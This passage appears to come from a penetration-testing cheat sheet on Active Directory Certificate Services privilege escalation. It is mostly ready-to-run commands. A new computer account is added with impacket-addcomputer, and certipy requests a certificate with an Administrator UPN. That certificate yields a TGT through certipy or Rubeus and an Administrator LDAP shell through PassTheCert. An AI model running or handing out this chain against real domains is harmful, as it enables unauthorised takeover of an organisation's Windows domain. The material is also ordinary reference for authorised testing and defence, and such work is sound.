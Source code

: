 We can use the **addcomputer ([impacket](https://github.com/SecureAuthCorp/impacket))** which is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

```sh
impacket-addcomputer 'example.local/username:password' -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
# or
impacket-addcomputer 'example.local/username:password' -dc-ip 10.0.0.1 -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
# or
impacket-addcomputer 'example.local/username:password@example.com' -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
```

### 3. Request Certificates

After adding new computer, we might be able to retrieve certificate using this computer account.  
At this time, try using alternate UPN (**`-upn`**) for administrator because we want to escalate privilege.

```sh
certipy req -u 'TEST$' -p 'password' -ca VULN-CA -target example.local -dc-ip 10.0.0.1 -dns ca.example.local -template Example -upn Administrator@example.local
```

If successful, the file which contains certificates and private key (e.g. **`administrator.pfx`**) will be saved in current directory.  

### 4. Authenticate using PFX

We might be able to retrieve TGT using the **`.pfx`** file as below.

```sh
# From outside of target machine
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
# From inside of target machine
Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx /ptt
```

Then using/cracking it to authenticate as Administrator.

### Option: Authenticate over LDAP

Reference: [https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

According to the article above, we may be able to authenticate over some protocols such as LDAP(S).
First off, split the **`administrator.pfx`** with **certificate** and **private key** using two commands below.

```sh
# Extract certificate by `-nokey` flag
certipy cert -pfx administrator.pfx -nokey -out cert.crt

# Extract private key by `-nocert` flag
certipy cert -pfx administrator.pfx -nocert -out cert.key
```

After that, using [PassTheCert](https://github.com/AlmondOffSec/PassTheCert), we can spawn shell as Administrator via **Schannel** against **LDAP(S)**.

```sh
python3 passthecert.py -dc-ip 10.0.0.1 -crt cert.crt -key cert.key -domain example.local -port 636 -action ldap-shell
```

<br />

